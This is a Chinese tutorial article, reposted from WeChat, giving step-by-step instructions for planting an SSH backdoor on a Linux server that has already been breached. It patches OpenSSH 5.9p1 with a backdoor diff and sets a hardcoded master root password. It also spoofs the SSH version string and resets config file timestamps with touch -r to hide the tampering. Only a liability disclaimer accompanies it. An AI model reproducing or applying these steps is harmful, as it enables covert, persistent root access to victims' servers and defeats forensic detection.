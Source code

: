 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nxVXt1a4UaA09SJ-lcV_pw)

**0x00 前言**
-----------

虽然可以 ssh 连进去，但是可否长期进行控制呢？这里就涉及到 ssh 后门的问题了，本次就是通过 WinSCP 与 Linux 服务器进行连接，然后配置安装 SSH 后门，这次实验主要目的通过实践学习熟悉 Linux SSH 后门的安装过程和步骤。

**0x01** **配置 SSH 后门**
----------------------

### 2.1：建立连接

### 利用 winSCP 工具（也可以选用其他工具）连接已知（即已经渗透成功的服务器）服务器，如图：

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazL0fyk1LFgLAtO5D5AuFGUEsmdMbibCayETaW4sp2gWA7yOHEbarhg9Jw/640?wx_fmt=png)

连接成功后：![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLw1xkKGV6s7uEv5GQx6SaF9QtCzr7mFGd0Pe6QI6O77uaruMY7E7Agw/640?wx_fmt=png)

用 SecureCRT 连接成功后如图：![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLx65mY3nU6ickw19ZVzO7mxunRDEQoYMyXUI7ajvHrcL3ePgicAgicLa9A/640?wx_fmt=png)

通过`ssh -V`查看当前 SSH 版本  

上传带有后门的 SSH 安装包

上传工具（上面提到的 WinSCP、SecureCRT、putty 都可以，自行选择）![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLHWo1ibcUJG4rMUdytcMlyPYuPPc4qGuVOtmaiaaIxhdIz3oCAWhDTmOg/640?wx_fmt=png)

解压上传的安装包  

```
tar zxf openssh-5.9p1.tar.gz
tar zxf 0x06-openssh-5.9p1.patch.tar.gz
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLo7lApoCdfQRbviavzxuFpd2spjyticBnKIGOgJzsC1bCnTnQyMSA55icA/640?wx_fmt=png)  

执行如下命令，移动原有配置文件  

```
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
```

复制文件 sshbd5.9p1.diff 到 openssh-5.9p1 目录  

```
cd opens
sh-5.9p1.patch/
cp sshbd5.9p1.diff …/openssh-5.9p1
cd …/openssh-5.9p1
patch < sshbd5.9p1.diff
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLjVyDArxibcjiaHFr6TKB0CyyQkt3bFKzFiassl8C7CE35foheMWOaxWrg/640?wx_fmt=png)

编辑 includes.h 文件，设置自己的后门密码  

```
vi includes.h
```

找到 #define SECRETPW “apaajaboleh” // apaajaboleh 为后门的密码 可修改成自己设定的密码，如图![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLicJ6oK2ltMSL8jysSaoS4dPhqoEZp7vd0K1wD3xLP0QpMxIe3KXQIqw/640?wx_fmt=png)

修改当前系统的 SSH 版本

通过`ssh -V`查看当前 SSH 版本，记录下来

vi version.h 修改 version.h 文件的版本信息![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLkQvSpePg2sHibv8bVic8FEdfJtSAQKfs0s055l5yvJicDzHt7IqDXrTxA/640?wx_fmt=png)

**0x02** **安装 SSH 后门**
----------------------

执行./configure --prefix=/usr --sysconfdir=/etc/ssh 指定配置选项

执行 make && make install 编译安装

安转完成后如图：![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazL8vI7ThgXNoml2SS3RiabYeIjSgbVEYfy00F7RRMSSc8KM92vibRalRSg/640?wx_fmt=png)

```
touch -r /etc/ssh/ssh_config.old /etc/ssh/ssh_config //修改日期
touch -r /etc/ssh/sshd_config.old /etc/ssh/sshd_config //修改日期
/etc/init.d/ssh restart //重启ssh服务
```

**0x03** **测试后门是否安装成功**
-----------------------

用连接工具连接 ssh，用户名为 root，密码为前面设置的 SSH 后门的密码![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM4GMOYpVB8Q7uNwZPFVPiazLZOw4SUibcMeHthQA2PibzicWvNndwKvoOKEsr4a2YcgcMdLicDSMeAibkjg/640?wx_fmt=png)

公众号

最后  

-----

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**无害实验室拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的**
